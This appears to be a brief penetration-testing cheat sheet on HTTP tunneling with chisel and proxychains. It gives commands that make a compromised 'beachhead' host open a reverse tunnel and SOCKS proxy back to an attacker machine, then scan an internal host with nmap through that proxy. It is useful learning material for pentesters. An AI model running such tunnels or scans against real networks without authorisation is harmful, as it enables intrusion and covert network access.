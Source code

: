# HTTP Tunneling

## Things to remember
  *  `127.0.0.1` != `localhost`, sometimes one or the other will cause errors

## Useful tools
  *  [`chisel`](https://github.com/jpillora/chisel) for establishing HTTP tunnels
  *  [`proxychains`](https://github.com/rofl0r/proxychains-ng) for proxying tools over HTTP tunnels

## HTTP remote port forwarding
  *  Tunnel a beachhead port to an attacker port via connection to beachhead
      *  Useful for catching connections from target
  *  Tunnel an attacker port to a target port via reverse connection from beachhead

// Beachhead port 4444 to attacker port 4444
```
./chisel server -p 443 --reverse
./chisel client 10.0.0.2:443 4444:10.0.0.2:4444
```

## HTTP dynamic port forwarding
  *  Tunnel an attacker port to any target via SOCKS proxy on beachhead

// Attacker port 1080 to proxy on beachhead via connection from beachhead to attacker
```
./chisel server -p 443 --reverse
./chisel client 10.0.0.2:443 R:socks
```

// Reconfigure and use proxychains
```
sudo nano /etc/proxychains4.conf
...
[ProxyList]
# add proxy here ...   
# meanwile
# defaults set to "tor"
#socks4 127.0.0.1 9050
socks5 127.0.0.1 1080
...
proxychains nmap -Pn -sT --top-ports 100 -vv -A 192.168.0.2
```
